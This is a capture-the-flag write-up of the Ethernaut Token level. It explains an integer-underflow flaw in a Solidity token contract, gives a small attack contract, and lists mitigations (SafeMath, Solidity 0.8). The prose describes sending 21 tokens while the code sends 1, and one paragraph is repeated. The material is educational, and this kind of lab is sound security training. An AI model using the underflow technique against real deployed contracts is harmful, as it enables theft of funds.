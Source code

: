 In Ethernaut Token Challenge 5, you are given 20 tokens to start with, and your objective is to acquire additional tokens, preferably a very large amount.

The vulnerability in this contract lies in the lack of proper handling of integer underflows and overflows. When a uint (unsigned integer) reaches its byte size, an overflow occurs, and the next element added will wrap around to the first variable element. Conversely, an underflow happens when a uint8, for example, is zero, and you subtract one from it, resulting in 255.

The issue occurs in the lines `require(balances[msg.sender] - _value >= 0)` and `balances[msg.sender] -= _value`. To exploit this, transfer 21 tokens to another address, causing an underflow and setting your balance to a very large number.

To exploit this vulnerability, the attacker can transfer 21 tokens (more than the initial 20) to another address. This will cause an underflow, setting the balance to a very large number.

```solidity
contract TokenAttack {
    IToken private _token;

    constructor(address _target) public {
        _token = IToken(_target);
    }

    function attack() public {
        _token.transfer(msg.sender, 1);
    }
}

```

To prevent underflows and overflows in Solidity, there are two options:

1. Use OpenZeppelin's SafeMath library, which automatically checks for overflows and underflows in all mathematical operators.
2. Use Solidity version 0.8 or later, which includes built-in overflow and underflow checks that cause a revert if they occur.
